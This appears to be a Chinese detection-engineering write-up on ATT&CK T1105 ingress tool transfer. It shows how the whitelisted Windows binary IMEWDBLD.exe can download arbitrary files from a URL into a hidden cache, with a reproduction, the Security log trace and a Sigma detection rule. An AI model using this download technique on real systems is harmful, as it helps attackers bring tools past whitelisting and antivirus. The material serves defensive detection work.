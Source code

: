 # T1105-Win-入口工具转移-IMEWDBLD.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

IMEWDBLD.exe是微软拼音的开放扩展字典模块，主要用来下载字典文件，在Windows中主要存在路径为：

**路径:**

```yml
-   C:\Windows\System32\IME\SHARED\IMEWDBLD.exe
```

可以通过`C:\Windows\System32\IME\SHARED\IMEWDBLD.exe <URL>`进行下载任意文件，但是下载的路径为隐藏的文件/文件夹

并且路径为`C:\Users\%username%\AppData\Local\Microsoft\Windows\INetCache\IE\[随机值]`;

所以其利用方式是

```yml
C:\Windows\System32\IME\SHARED\IMEWDBLD.exe https://pastebin.com/raw/tdyShwLw
```

用例：从 Internet 下载文件
所需权限：用户
操作系统：Windows 10

查找下载文件路径：

```yml
forfiles /P "%localappdata%\Microsoft\Windows\INetCache" /S /M * /C "cmd /c echo @path"

> 参数介绍 
/P 表示开始搜索的路径。默认文件夹是当前工作的 目录 (.)。 
/S 指导forfiles递归到子目录。像"DIR /S"。
/M 根据搜索掩码搜索文件。默认搜索掩码是 '*'。 
/C 表示为每个文件执行的命令。命令字符串应该用双引号括起来。 
@path返回文件的完整路径
```

## 检测日志

Windows 安全日志

## 测试复现

```bash
C:\Users\liyang>C:\Windows\System32\IME\SHARED\IMEWDBLD.exe https://dldir1.qq.com/qqfile/qq/PCQQ9.5.9/QQ9.5.9.28650.exe

C:\Users\liyang>forfiles /P "%localappdata%\Microsoft\Windows\INetCache" /S /M * /C "cmd /c echo @path"

"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\Content.IE5"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\Low"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\Virtualized"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\container.dat"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\JKCC1BIU"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\DisabledFlights[1].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\dyntelconfig[2].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\RemoteSettings_Installer[1].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\ShippedFlights[1].cache"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\tdyShwLw[1].txt"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\views[1]"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\EG7SF236\windows-app-web-link[1].json"
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\JKCC1BIU\QQ9.5.9.28650[1].exe" #文件已经被下载成功
"C:\Users\liyang\AppData\Local\Microsoft\Windows\INetCache\IE\JKCC1BIU\views[1]"
```

当执行下载任务时，Windows弹窗提示失败，忽略即可。实际上文件已经下载到本地目录中。

## 测试留痕

```yml
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x2278

新进程名称: C:\Windows\System32\IME\SHARED\IMEWDBLD.EXE

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x1ca8

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: C:\Windows\System32\IME\SHARED\IMEWDBLD.exe  https://dldir1.qq.com/qqfile/qq/PCQQ9.5.9/QQ9.5.9.28650.exe
```

## 检测方法/思路

### Sigma规则

```yml
title: IMEWDBLD白名单利用监测
status: experimental
date: 2022/04/20
author: 12306Br0
tags:
- attack.command_and_control
- attack.t1105
references:
- https://lolbas-project.github.io/lolbas/Binaries/IMEWDBLD/
- https://cloud.tencent.com/developer/article/1848645

logsource:
product: windows
category: security
selection:
   Image: C:\Windows\System32\IME\SHARED\IMEWDBLD.EXE
   CommandLine:http*//
condition: selection
falsepositives:
- Unknown
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

IMEWDBLD.exe

<https://lolbas-project.github.io/lolbas/Binaries/IMEWDBLD/>

IMEWDBLD.exe ByPass360 下载文件

<https://cloud.tencent.com/developer/article/1848645>
